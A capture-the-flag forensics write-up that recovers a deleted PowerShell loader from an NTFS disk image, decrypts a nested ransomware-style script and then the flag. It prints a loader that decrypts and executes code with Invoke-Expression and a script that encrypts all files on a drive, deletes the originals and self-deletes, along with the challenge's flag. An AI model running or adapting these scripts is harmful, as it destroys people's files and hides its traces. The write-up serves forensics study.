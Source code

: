 ## SecurinetsDisk-clean.001 CTF Write-up

### Overview

* **File:** `SecurinetsDisk-clean.001` (NTFS disk image, \~100 MiB)
* **Objective:** Recover `loader.ps1`, use its keys/IVs to decrypt nested scripts, and ultimately retrieve the flag.

---

### 1. Initial Reconnaissance

```bash
$ file SecurinetsDisk-clean.001
SecurinetsDisk-clean.001: DOS/MBR boot sector MS-MBR Windows 7 English
  "Invalid partition table" @0x17b, "Error loading operating system" @0x19a
  disk signature: 0xf6a155
  Partition 1: ID=0x7, start-CHS=(0x0,2,3), end-CHS=(0xb,254,63)
  startsector=128, 198656 sectors
```

* **Interpretation:** NTFS partition begins at sector 128 (offset = 128 × 512 = 65 536 bytes).

---

### 2. Mounting the Volume

```bash
$ sudo mount -t ntfs -o loop,ro,offset=65536 SecurinetsDisk-clean.001 /mnt
$ ls -lah /mnt
-rw-r--r-- 1 root root  1.2K Jul 20 ransom_note.txt
-rw-r--r-- 1 root root  5.6K Jul 20 payload.enc
-rw-r--r-- 1 root root  1.2K Jul 20 flag.enc
drwxr-xr-x 1 root root   64K Jul 20 "System Volume Information"
```

#### `ransom_note.txt` content:

```
i never set out to lock them away.
i only wished to keep them safe—from prying eyes, from careless hands.
the runes? they trembled under my touch, slipping through the shadows.
the echoes? they scattered, hiding in the spaces between heartbeats.

yet the truth knows no silence.
it pulses in the stillness, waiting to be heard.
seek the cipher buried in midnight’s hush.
trace the footprints of forgotten scripts.

perhaps, in the hush of your own reflection,
you’ll unearth the fragments i left behind.
perhaps, in that moment, i will meet you—
and you will meet yourself.

—Mr.F00L
```

* **Clue:** “cipher buried in midnight’s hush” hints at a hidden script encrypted on disk.

---

### 3. Carving & Deleted Files

* **Foremost** on the raw image yielded no useful recoveries.
* Use Sleuth Kit to list deleted NTFS entries:

  ```bash
  $ fls -r -d -f ntfs -o 128 SecurinetsDisk-clean.001 > deleted.lst
  ```
* Grepping for obvious script names:

  ```bash
  $ grep -i "loader.ps1" deleted.lst
  -/r * 40-128-1:    loader.ps1
  ```
* **Observation:** Entry ID `40-128-1` corresponds to `loader.ps1` deleted from root directory.

---

### 4. Recovering `loader.ps1`

```bash
$ icat -f ntfs -o 128 SecurinetsDisk-clean.001 40 > loader.ps1
```

```powershell
# loader.ps1 (recovered)
$key = [System.Text.Encoding]::UTF8.GetBytes("0123456789abcdef")
$iv  = [System.Text.Encoding]::UTF8.GetBytes("abcdef9876543210")

$AES = New-Object System.Security.Cryptography.AesManaged
$AES.Key      = $key
$AES.IV       = $iv
$AES.Mode     = "CBC"
$AES.Padding  = "PKCS7"

# Read Base64 ciphertext
$enc   = Get-Content "L:\payload.enc" -Raw
$bytes = [System.Convert]::FromBase64String($enc)

# Decrypt payload
$decryptor = $AES.CreateDecryptor()
$plaintext = $decryptor.TransformFinalBlock($bytes,0,$bytes.Length)
$script    = [System.Text.Encoding]::UTF8.GetString($plaintext)

# Execute inner script
Invoke-Expression $script

# Self-delete
Remove-Item $MyInvocation.MyCommand.Path
```

* **Explanation:**

  * **Key/IV:** `"0123456789abcdef"` & `"abcdef9876543210"`.
  * **AES-CBC** decrypts `payload.enc` into a second PowerShell script, then executes and removes itself.

---

### 5. Decrypting `payload.enc`

* Copied Base64 blob from `/mnt/payload.enc` into CyberChef:

  * **Recipe:** Base64 → AES Decrypt (Key=`0123456789abcdef`, IV=`abcdef9876543210`, Mode=CBC, Padding=PKCS7)

![Placeholder: CyberChef payload decryption screenshot](assets/cyberchef_payload.png)

* **Resulting script:**

```powershell
# ransom.ps1
$key = [System.Text.Encoding]::UTF8.GetBytes("m4yb3w3d0nt3x1st")
$iv  = [System.Text.Encoding]::UTF8.GetBytes("l1f31sf0rl1v1ng!")

$AES = New-Object System.Security.Cryptography.AesManaged
$AES.Key      = $key
$AES.IV       = $iv
$AES.Mode     = "CBC"
$AES.Padding  = "PKCS7"

# Stage 1: Encrypt flag.txt -> flag.enc
$flag     = Get-Content "C:\Users\Blue\Desktop\StageRansomware\flag.txt" -Raw
$encryptor= $AES.CreateEncryptor()
$bytes    = [System.Text.Encoding]::UTF8.GetBytes($flag)
$cipher   = $encryptor.TransformFinalBlock($bytes,0,$bytes.Length)
[System.IO.File]::WriteAllBytes("L:\flag.enc", $cipher)

# Stage 2: Encrypt all other files on L:\ (except scripts)
$files = Get-ChildItem "L:\" -File | Where-Object {
    $_.Name -notin @("ransom.ps1","ransom_note.txt","flag.enc","payload.enc","loader.ps1")
}
foreach ($file in $files) {
    $plaintext = Get-Content $file.FullName -Raw
    $bytes     = [System.Text.Encoding]::UTF8.GetBytes($plaintext)
    $encdata   = $encryptor.TransformFinalBlock($bytes,0,$bytes.Length)
    [System.IO.File]::WriteAllBytes("L:\$($file.BaseName).enc", $encdata)
    Remove-Item $file.FullName
}

# Update ransom note and self-delete
Set-Content "L:\ransom_note.txt" @"...
- vivi (or his ghost)
"@ -Encoding UTF8
Remove-Item $MyInvocation.MyCommand.Path
```

**Key/IV for flag:**

* Key: `m4yb3w3d0nt3x1st`
* IV:  `l1f31sf0rl1v1ng!`

---

### 6. Recovering the Flag

```bash
# Decrypt flag.enc with PowerShell:
PS> $key=..; $iv=..; $cipher=[IO.File]::ReadAllBytes("L:\flag.enc");
PS> $AES=New-Object ...; $AES.Key=$key; $AES.IV=$iv; $plaintext=$AES.CreateDecryptor().TransformFinalBlock($cipher,0,$cipher.Length);
PS> [System.Text.Encoding]::UTF8.GetString($plaintext)
```

Or via CyberChef:

1. Import `flag.enc` as raw bytes.
2. AES Decrypt (Key/IV above, CBC, PKCS7).

![Placeholder: CyberChef flag decryption screenshot](assets/cyberchef_flag.png)

* **Flag:** `Securinets{I_d0nt_kn0w_h0w_t0_b3_s1l3nt_wh3n_my_HearT_1s_sp34k1ng}`

---

### Summary

1. Mapped NTFS partition and mounted image.
2. Inspected ransom note for hints.
3. Carved deleted `loader.ps1` via Sleuth Kit (`fls` + `icat`).
4. Decrypted `payload.enc` to reveal nested script, extracted new key/IV.
5. Decrypted `flag.enc` to obtain final flag.

> **Shoutout:** White Nights

